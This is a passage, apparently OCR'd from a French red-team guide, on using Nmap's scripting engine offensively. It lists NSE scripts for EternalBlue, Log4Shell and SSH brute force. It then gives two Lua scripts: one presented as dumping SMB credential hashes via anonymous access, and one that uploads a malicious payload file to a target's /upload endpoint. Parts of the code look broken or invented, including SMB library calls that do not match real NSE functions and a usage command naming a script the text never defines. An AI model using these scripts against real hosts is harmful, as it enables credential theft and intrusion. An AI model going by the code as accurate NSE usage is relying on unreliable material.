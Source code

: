 #### 4.2.2. EXPLOITATION NATIVE DU MOTEUR DE SCRIPT NMAP (NSE)

Les scripts pré-construits et personnalisés de NSE automatisent l'exploitation de vulnérabilités connues. Les red teamers peuvent exploiter les catégories de script vuln et exploit pour des tâches comme le dumping d'identifiants, RCE et le mouvement latéral.

Scripts d'Exploitation Communs:
* smb-vuln-ms17-010: Exploite la vulnérabilité EternalBlue.
* http-vuln-cve2021-44228: Détection RCE de Log4Shell.
* ssh-brute: Force brute d'identifiants.

Exemple de Script Personnalisé (Dumping d'Identifiants SMB):
```
description = "Extrait les hachages SMB via un accès anonyme"
author = "Red Team"
categories = {"exploit"}
portrule = function(host, port)
    return port.number == 445 and port.protocol == "tcp"
end
action = function(host, port)
    local smb = require "smb"
    local status, result = smb.get_shares(host)
    if status then
        smb.share_dump(host, "IPC$") -- Dump du partage IPC$ pour les hachages
        return "Hachages SMB extraits"
    end
end
```

Utilisation:
`nmap -p 445 --script smb-harvest [target]`

#### 4.2.3. SCRIPT LUA POUR DES EXPLOITS SPÉCIFIQUES AU PROTOCOLE

Le moteur Lua de Nmap permet un contrôle granulaire sur les interactions réseau. Les red teamers peuvent créer des exploits spécifiques au protocole (par exemple, HTTP, SMB, DNS) en utilisant la bibliothèque socket de bas niveau de Lua.

Exemple: Requête HTTP POST avec Charge Utile Malveillante:
```
local http = require "http"
local io = require "io"

prerule = function()
    -- Logique pré-scan
end
action = function(host, port)
    local payload = io.open("exploit.bin", "rb"):read("*a")
    local response = http.post(host, port, "/upload", {header={["Content-Type"]="application/octet-stream"}, body=payload})
    if response.status == 200 then
        return "Charge utile d'exploit livrée"
    end
end
```
